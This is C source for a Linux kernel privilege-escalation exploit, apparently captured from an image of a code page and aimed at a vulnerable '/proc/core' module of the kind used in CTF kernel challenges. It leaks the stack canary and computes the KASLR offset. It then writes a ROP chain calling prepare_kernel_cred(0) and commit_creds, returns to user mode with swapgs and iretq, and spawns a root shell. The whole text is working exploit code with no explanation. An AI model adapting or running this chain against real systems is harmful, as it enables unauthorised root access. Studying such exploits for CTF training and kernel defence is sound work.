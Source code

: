 ```c
{
    printf("[*]copy from user with size: %ld\n", size);
    ioctl(fd, 0x6677889A, size);
}

int main()
{
    save_status();
    int fd = open("/proc/core", 2);
    if(fd < 0)
    {
        puts("[*]open /proc/core error!");
        exit(0);
    }

    find_symbols();
    ssize_t offset = vmlinux_base - raw_vmlinux_base;

    set_off(fd, 0x40);

    char buf[0x40] = {0};
    core_read(fd, buf);
    size_t canary = ((size_t *)buf)[0];
    printf("[+]canary: %p\n", canary);

    size_t rop[0x1000] = {0};

    int i;
    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
    rop[i++] = 0xffffffff81000b2f + offset; // pop rdi; ret
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;         // prepare_kernel_cred(0)

    rop[i++] = 0xffffffff810a0f49 + offset; // pop rdx; ret
    rop[i++] = 0xffffffff81021e53 + offset; // pop rcx; ret
    rop[i++] = 0xffffffff8101aa6a + offset; // mov rdi, rax; call rdx; 
    rop[i++] = commit_creds;

    rop[i++] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
    rop[i++] = 0;

    rop[i++] = 0xffffffff81050ac2 + offset; // iretq; ret; 

    rop[i++] = (size_t)spawn_shell;         // rip 

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x800);
    core_copy_func(fd, 0xffffffffffff0100);
    return 0;
}
```
